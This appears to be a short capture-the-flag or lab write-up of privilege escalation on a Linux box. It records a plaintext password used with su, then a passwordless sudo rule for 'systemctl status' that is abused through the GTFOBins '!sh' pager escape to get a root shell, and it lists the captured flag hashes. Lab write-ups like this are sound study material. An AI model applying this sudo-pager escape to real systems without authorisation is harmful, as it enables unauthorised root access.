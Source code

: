 ![[Pasted image 20241013131715.png]]
## Privilege Escalation vector
- Ran `su briand` with password `RefriedScabbedWasting502` to switch to user `briand` 
![[Pasted image 20241013132209.png]]
- Ran `sudo -l` and identified no password required to run `/usr/bin/systemctl status teamcity-server.service` as `root`
![[Pasted image 20241013132333.png]]
- Identified [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/) for `systemctl` run as `sudo`. Ran `sudo /usr/bin/systemctl status teamcity-server.service` to start `teamcity-server.service` then `!sh` to establish shell as `root`
![[Pasted image 20241013133645.png]]
- Ran `cat /root/proof.txt` to print `96a5b0fce4ac011046cd0406ec495da5`
---
# Trophy & Loot
`local.txt` = `ecfbfa664ee495c58f9b9b35c0d08f7d`
`root.txt` = `96a5b0fce4ac011046cd0406ec495da5`